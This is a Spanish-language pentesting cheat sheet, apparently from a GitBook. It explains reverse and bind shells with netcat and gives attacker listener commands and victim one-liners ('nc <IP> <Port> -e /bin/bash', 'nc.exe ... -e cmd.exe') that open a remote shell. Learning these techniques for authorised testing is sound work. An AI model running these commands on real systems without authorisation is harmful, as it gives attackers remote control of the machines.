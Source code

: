 # Shells

## Reverse Shell

<figure><img src="../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption><p>Target to Attacker</p></figcaption></figure>

### Atacante Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port>
```
{% endcode %}

Donde:

* `-l` : Modo escucha
* `-v` : Modo verbose (Retorna Información de la conexión, se puede usar -vvv para mas información en la conexión).&#x20;
* `-n` : Deshabilitar resolución inversa de DNS
* `-p <Port>` : Establece el puerto de escucha



### Victima Linux

```bash
nc <IP> <Port> -e /bin/bash
```

### Víctima Windows

```bash
nc.exe <IP> <Port> –e cmd.exe
```





## Bind Shell

En algunos proyectos donde no puedas establecer un servidor de escucha por que te encuentres por NAT o por Firewall, a veces es conveniente de que la máquina victima esté en modo escucha ofreciendo la shell, a esto se le llama <mark style="color:green;">**Bind shell**</mark> o <mark style="color:green;">**shell directa.**</mark>

<figure><img src="../../.gitbook/assets/image (26) (2).png" alt=""><figcaption></figcaption></figure>

### Atacante Linux

```bash
nc <IP Target> <Port>
```

### Víctima Linux

{% code overflow="wrap" %}
```bash
nc -lvnp <Port> -e /bin/bash
```
{% endcode %}

### Víctima Windows

{% code overflow="wrap" %}
```bash
nc.exe -l -p <Port> -e cmd.exe
```
{% endcode %}



## Referencias

Generador de Revershells

{% embed url="https://www.revshells.com/" %}

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}
